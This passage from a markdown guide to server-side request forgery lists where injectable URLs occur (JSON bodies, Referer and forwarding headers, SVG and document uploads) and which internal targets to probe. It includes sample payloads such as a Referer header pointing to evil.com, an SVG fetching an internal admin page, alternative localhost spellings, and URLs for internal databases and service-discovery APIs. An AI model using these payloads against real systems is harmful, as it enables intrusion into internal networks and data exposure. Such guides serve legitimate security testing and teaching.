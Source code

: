       {"source":"http://internal-network.local/sensitive-data"}
      ```

  - **URLs in headers**
    - Referer header processing
    - Custom headers used for integrations
    - X-Forwarded-For and similar headers
    - Example:
      ```
      GET /analytics HTTP/1.1
      Referer: https://evil.com?ssrf=http://internal-service/
      ```

  - **File upload features**
    - SVG images (contain XML with potential external entities)
    - HTML files with external resources
    - Office documents with external references
    - Example (SVG with SSRF):
      ```xml
      <svg xmlns="http://www.w3.org/2000/svg">
        <image href="http://internal-service/admin" />
      </svg>
      ```

- **SSRF attack targets**

  - **Against the server itself (localhost)**
    - Administrative interfaces on localhost
      - Common paths: `/admin`, `/management`, `/console`, `/internal`
      - Example: `http://127.0.0.1:8080/admin`
    - Development/debugging endpoints
      - Spring Boot Actuator: `http://localhost:8080/actuator`
      - Express.js debug: `http://localhost:8080/debug`
    - Alternative localhost references:
      - `http://127.0.0.1/admin`
      - `http://localhost/admin`
      - `http://[::1]/admin` (IPv6)
      - `http://0.0.0.0/admin`
      - `http://0/admin`

  - **Against internal network services**
    - Internal web applications
      - Private admin panels: `http://192.168.1.1/admin`
      - Intranet services: `http://intranet.company.local`
    - Network infrastructure
      - Routers/switches: `http://192.168.1.1/`
      - Printers: `http://192.168.1.10:631`
      - Network monitoring: `http://monitoring.internal:8080`
    - Databases and storage
      - Redis: `http://redis-server:6379`
      - MongoDB: `http://mongodb-server:27017`
      - Elasticsearch: `http://elastic-server:9200/_cat/indices`
      - Memcached: `http://memcached-server:11211/stats`
    - Service discovery systems
      - Consul: `http://consul:8500/v1/catalog/services`
      - Eureka: `http://eureka:8761/eureka/apps`
      - Kubernetes API: `https://kubernetes.default.svc`
